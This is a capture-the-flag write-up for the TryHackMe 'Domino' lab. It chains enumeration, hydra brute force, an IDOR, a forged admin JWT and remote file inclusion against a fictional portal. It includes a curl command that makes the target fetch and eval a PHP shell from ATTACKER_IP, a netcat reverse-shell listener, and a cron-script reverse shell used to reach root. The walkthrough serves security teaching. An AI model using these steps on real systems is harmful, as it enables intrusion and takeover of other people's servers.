# Domino

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/domino)

The NexusCorp Employee Portal appears to be a typical internal application with authentication controls and role-based access in place. However, multiple small weaknesses, ranging from misconfigurations to logic flaws, can be combined to fully compromise the system.

As an attacker, your objective is to observe how the application behaves, interact with its endpoints, and identify weak trust boundaries. By analysing requests, modifying parameters, and chaining vulnerabilities together, you can progressively escalate your access and move deeper into the system.

*A single misstep can trigger a chain reaction — exploit each weakness in sequence and watch the system fall, one domino at a time.*

---

## Reconnaissance

As always, I began with an nmap scan looking for open ports:

```bash
nmap TARGET_IP -p-
```

The scan revealed HTTP running on port 80 and SSH on port 22. I followed up with another scan that enumerated versions and ran nmap's default scripts:

```
nmap TARGET_IP -p 22,80 -sV -sC
```

These were the results:



So SSH was running `OpenSSH 9.6p1` and the HTTP server was `Apache/2.4.58`. I visited the page on port 80, which turned out to be the login page for the NexusCorp employee portal.

---

## Enumeration

Next, I used `feroxbuster` to enumerate existing directories and files. This gave a lot of information:



I visited `/backup/README.txt` first:

```text
NexusCorp Backup Configuration
================================
config.enc  - Encrypted application configuration (AES-128-ECB)
Decryption key reference: see static/app.js (deployment notes)
```

Next, I downloaded an application configuration file from `/backup/config.enc` and checked `/static/app.js`:



This file contained the key used to encrypt `config.enc`. It used AES-128-ECB, a symmetric algorithm, meaning the same key is used for both encryption and decryption. I used an [online AES decryption tool](https://emn178.github.io/online-tools/aes/decrypt/) to decrypt the file. Since the key had to be 16 bytes long and the one in `app.js` was only 14, I appended `0000` (2 null bytes) to the end of the hex-encoded key. I selected ECB mode and decrypted the file, though it didn't reveal anything particularly useful:

```text
{"app_name":"NexusCorp Portal","version":"2.3.1","deploy_env":"production","system_user":"devops"}
```

After that, I decided to investigate the main page more closely. The username field's placeholder revealed its expected format:

```text
firstname.lastname
```

From here, I navigated to `/team.php`, found earlier with `feroxbuster`. This endpoint listed NexusCorp employees along with their emails and job titles, which let me build a list of usernames:

```text
laura.hayes laura.hayes@nexus.corp CIO
michael.chen michael.chen@nexus.corp Lead Security Engineer
sarah.johnson sarah.johnson@nexus.corp Senior Software Engineer
robert.wilson robert.wilson@nexus.corp DevOps Engineer
emma.taylor emma.taylor@nexus.corp Product Manager
david.brown david.brown@nexus.corp Full Stack Developer
james.wright james.wright@nexus.corp Systems Administrator
```

Next, I checked `/forgot.php`, a page for resetting passwords by emailing a reset link to the user's account. Submitting an invalid username returned a message saying the account wasn't found, which let me confirm that all the usernames I'd built were valid.

---

## Initial Access

I used `hydra` to brute-force passwords, which turned up three valid ones:



So `sarah.johnson`, `robert.wilson`, and `emma.taylor` all shared the same weak password. I logged in as `sarah.johnson` first and reached the employee portal:



The page had a `Quick Links` section. Opening the `My Profile API` link redirected me to `/api/users/profile.php?id=`. I tried modifying the `id` parameter to check for an IDOR vulnerability, and sure enough, it was vulnerable. Setting `id=1` gave me `laura.hayes`' information, along with the first flag:



So `laura.hayes` was an admin. I went back to `/dashboard.php` and read the `File Viewer` section, which mentioned an `/api/files.php?name` endpoint that could be used to access internal documents by modifying the `name` parameter. To use this feature, I first needed a JWT token from the `/api/auth/token.php` endpoint. I obtained one and sent a test request:

```bash
curl 'http://MACHINE_IP/api/files.php?name=' -H 'Authorization: Bearer <TOKEN>'
```

However, the response said I needed an admin token:

```text
{"error":"Admin JWT required. Check your token payload."}
```

This is the decoded payload:

```json
{
  "sub": "sarah.johnson",
  "role": "user",
  "iat": 1790153363,
  "exp": 1790156963
}
```

I tried cracking the JWT secret with `hashcat`, but that didn't work. Instead, I decided to forge a custom JWT token with the `role` changed to `admin`, using the AES key I'd found earlier. I wrote a simple Python script to do that:

```python
import jwt

secret = "KEY_VALUE"

payload = {
  "sub": "sarah.johnson",
  "role": "admin",
  "iat": 1790153363,
  "exp": 1790156963
}

token = jwt.encode(
    payload,
    secret,
    algorithm="HS256"
)

print(token)
```

I ran the script and sent a new request with the forged token. This time it worked:

```text
{"error":"Missing name parameter","usage":"\/api\/files.php?name=\/var\/www\/html\/filename.txt"}
```

The response indicated I could only access files located in `/var/www/html`. The most interesting file in that directory was likely `config.php`, so I sent another request and retrieved its contents:

```php
<?php
define('DB_HOST', 'localhost');
define('DB_NAME', 'nexusdb');
define('DB_USER', 'app_user');
define('DB_PASS', 'REDACTED');
define('JWT_SECRET', 'REDACTED');
define('APP_SECRET', 'REDACTED');

function get_db() {
    $pdo = new PDO('mysql:host='.DB_HOST.';dbname='.DB_NAME, DB_USER, DB_PASS);
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    return $pdo;
}
?>
```

The file contained database credentials, along with `JWT_SECRET` (used for JWT tokens) and `APP_SECRET` (used for session cookies). The real JWT secret was different from the one I'd used to forge my token, which meant the application wasn't actually validating the token's signature.

I also read the contents of `/api/files.php`. Part of its code revealed something critical:

```php
if (strpos($name, 'http://') === 0 || strpos($name, 'https://') === 0) {
    $remote = @file_get_contents($name);
    if ($remote === false) {
        http_response_code(502);
        echo json_encode(['error' => 'Could not fetch remote file']);
        exit;
    }
...
eval(str_replace('<?php', '', $remote));
```

If the `name` parameter contains a URL, the application fetches its contents with `file_get_contents()` and stores them in the `$remote` variable. That content is then passed to `eval()`, causing it to be executed as PHP code.

So if `name` points to a file containing PHP code, the server downloads and executes it — a Remote File Inclusion (RFI) vulnerability that I could use to get a reverse shell. I generated a PHP reverse shell using a dedicated site, then started an HTTP server:

```bash
python3 -m http.server 8888
```

And sent a malicious request:

```bash
curl 'http://MACHINE_IP/api/files.php?name=http://ATTACKER_IP:8888/shell.php' -H 'Authorization: Bearer <TOKEN>'
```

With a listener running:

```bash
rlwrap nc -lvnp 4444
```

This gave me a reverse shell as `www-data`, along with another flag:



The flag that's normally reached by first gaining admin access on the portal can also be found directly at `/var/www/html/admin/index.php`:



---

## Escalation to `deops`

I tried to find files owned by `devops` that I could write to, but found nothing. I remembered I had `devops`' MySQL credentials, so I checked whether the same password also worked for SSH. It did — I logged in via SSH as `devops` and grabbed another flag:



So exploiting the RFI wasn't actually necessary for this step.

## Escalation to `root`

Running `pspy64` revealed two interesting processes, `admin_bot.py` and `health_check.sh`:




Both ran as root, and I had write access to both. I appended a reverse shell to `health_check.sh`, and after its next scheduled run, I got a shell as root:



---

## Kill Chain

This box was a long chain of small findings, each feeding into the next. Directory enumeration turned up a backup file and its decryption key, and while decrypting it didn't directly help, enumerating the team page gave a full list of employee usernames. A password-reset page confirmed which usernames were valid, and a weak, shared password caught three of them in a brute-force attack.

From an ordinary user account, an IDOR in the profile API leaked another user's data and the first flag. The file-viewer API required an admin JWT, but since the application never actually verified the token's signature, forging one with an `admin` role was enough to bypass that check. That access disclosed `config.php`, and the same file-viewer endpoint turned out to allow remote file inclusion, giving a reverse shell as `www-data`. From there, reused credentials (the same password for MySQL and SSH) gave a much simpler route to the `devops` account, and two writable root-owned cron scripts made the final jump to root straightforward.

`sarah.johnson → www-data (via forged JWT + RFI) / devops (via password reuse) → root (via writable cron script)`

- **Initial Access:** Username enumeration + weak shared password → login as `sarah.johnson`
- **Information Disclosure:** IDOR in `/api/users/profile.php` → `laura.hayes`' data, first flag
- **Privilege Escalation (app-level):** Unverified JWT signature → forged admin token → access to `/api/files.php`
- **Remote Code Execution:** RFI via the `name` parameter → reverse shell as `www-data`
- **Privilege Escalation (system):** Reused `devops` MySQL password → SSH access as `devops`
- **Final Escalation:** Writable root-owned cron script (`health_check.sh`) → root shell

> Thanks for reading!